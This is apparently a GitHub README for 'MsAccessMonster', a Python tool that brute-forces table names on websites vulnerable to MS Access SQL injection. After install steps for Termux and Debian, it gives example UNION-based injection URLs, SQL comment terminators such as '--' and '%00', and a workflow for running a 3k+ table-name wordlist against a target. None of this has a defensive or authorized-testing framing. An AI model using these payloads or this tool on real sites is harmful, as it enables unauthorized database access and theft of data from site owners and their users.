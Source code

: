 ## MsAccessMonster <img src="https://img.shields.io/badge/Python-3776AB?style=flat-square&logo=python&logoColor=white"></img>
A fast tool for bruteforcing the Ms Access SQL Injection vulnerable sites with 3k+ possible table names.

### Compatible devices
- As this tool is completely written in python, it will run in all devices including, Termux and Debian based OS ( Ubuntu, Kali etc. ).

### Installation & running process
- For Termux ( Android )
```
pkg update && pkg upgrade -y
```
```
pkg install git && python3
```
```
pip install requests
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```
- For Debian based OS
```
sudo su
```
```
apt-get update && apt upgrade -y
```
```
apt-get install python3 python3-pip git
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```

### Tool running commands ( for every devices & OS )
```
cd MsAccessMonster
```
```
python3 ms.py
```
Then, you will be asked for a Ms Access Vulnerable Site. Give it like this,
```
https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from
```
Or,
```
https://www.everythingvuln1.com/vuln.php?id=1'and 0 union select 1,2,3,4 from
```
***Note :: Use the word "from" after the 1st input or, the tool won't work properly***.

Then, you will be asked to give the comment of the query. This can be anything. Depends on the website. Such as,
```
--
--+-
%00
;%00
```
After giving the perfect comment, you will be told to give your table_name's list or, word list. By default, we have given a default word list which contains 3k+ table names. If you want to use that put your command like this,
```
tables.txt
```
If you want to give your custom word list put the path then. For example,
```
/sdcard/tables.txt
```
![poc image](https://github.com/EverythingVulnerable/MsAccessMonster/blob/main/image1.png?raw=true "How To Run Program")
Now, hit enter and wait for the matched response. For example,
```
[$] Site link: https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from ..... %00
```
Here, ```...``` is the correct table names

![poc image2](https://github.com/EverythingVulnerable/MsAccessMonster/blob/main/image2.png?raw=true "Table Found")

### Follow us ::<br>
<a href="https://www.facebook.com/everything.vuln.1"><img src="https://img.shields.io/badge/Facebook-1877F2?style=flat-square&logo=facebook&logoColor=white"></img></a>
<a href="https://twitter.com/EverythingVuln1"><img src="https://img.shields.io/badge/-Twitter-1ca0f1?style=flat-square&labelColor=1ca0f1&logo=twitter&logoColor=white"></img></a>
<a href="https://github.com/EverythingVulnerable/"><img src="https://img.shields.io/badge/GitHub-100000?style=flat-square&logo=github&logoColor=white"></img></a>
